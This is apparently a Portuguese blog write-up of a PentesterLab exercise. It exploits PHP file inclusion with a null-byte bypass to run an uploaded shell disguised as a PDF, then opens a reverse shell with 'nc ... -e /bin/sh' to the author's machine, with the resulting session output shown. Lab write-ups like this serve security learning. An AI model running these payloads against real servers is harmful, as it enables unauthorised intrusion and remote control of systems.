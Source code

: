 Mas o script automaticamente insere um ".php" no final da entrada, o que faz sentido já que provavelmente espera encontrar uma página php para execução. É um problema que pode ser solucionado ao inserir um %00 (<a href="https://null-byte.wonderhowto.com/how-to/null-byte-injections-work-history-our-namesake-0130141/" target="_blank" rel="noopener">null byte</a>) no final da URL, que funcionará como um "sinalizador" de que a string acabou, fazendo com que o script ignore o .php que será inserido.

<img class="alignnone size-full wp-image-1511" src="https://brenn0.files.wordpress.com/2017/12/php9.png" alt="php9" width="725" height="409" />

Agora a próxima sacada dependeria do quanto de conhecimento e prática se tem. Ao ver essa falha, pensei logo em usa-la para executar a shell que enviei como pdf já que, mesmo com a extensão pdf, ao <a href="http://php.net/manual/pt_BR/function.include.php" target="_blank" rel="noopener">incluir</a> meu arquivo malicioso, o código php do mesmo seria executado. E, graças a informação exposta ao se fazer login, que exibe o caminho do arquivo que mandei, sei exatamente que endereço incluir como argumento para page: <em>http://192.168.0.36/index.php?page=uploads/shell.php.pdf%00</em>

<img class="alignnone size-full wp-image-1512" src="https://brenn0.files.wordpress.com/2017/12/php91.png" alt="php9" width="737" height="358" />

Executado com sucesso! Então fiz login com a <a href="https://github.com/Snifer/L4bsForShell/blob/master/PHP/Antichat%20Shell%20v1.3.php" target="_blank" rel="noopener">shell</a>, que é um pouco limitada mas que dá para o gasto, e tratei de abrir uma conexão reversa com o netcat para meu computador.

Primeiro, coloquei o netcat para ficar na escuta (-l), em modo detalhado (-v), usando a porta (-p) 31337.

```root@budweiser:~/Desktop# nc -lvp 31337```

Depois, fui na simplória shell php e executei o seguinte comando:

```nc 192.168.0.29 31337 -e /bin/sh```

Isso fez com que o servidor se conectasse ao meu ip na porta que escolhi para meu netcat e, com a opção -e mando o nc executar /bin/sh após a conexão. Assim, com a conexão feita, os comandos que envio são executados por /bin/sh e o resultado me é enviado.

```root@budweiser:~/Desktop# nc -lvp 31337
Listening on [0.0.0.0] (family 0, port 31337)
Connection from [192.168.0.37] port 31337 [tcp/*] accepted (family 2, sport 36672)
whoami www-data
uname -a
Linux debian 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686 GNU/Linux
```

E por hoje o negócio foi esse aí. Você pode ver a solução oficial no site do <a href="https://pentesterlab.com/exercises/php_include_and_post_exploitation/course" target="_blank" rel="noopener">Pentester Lab</a>.
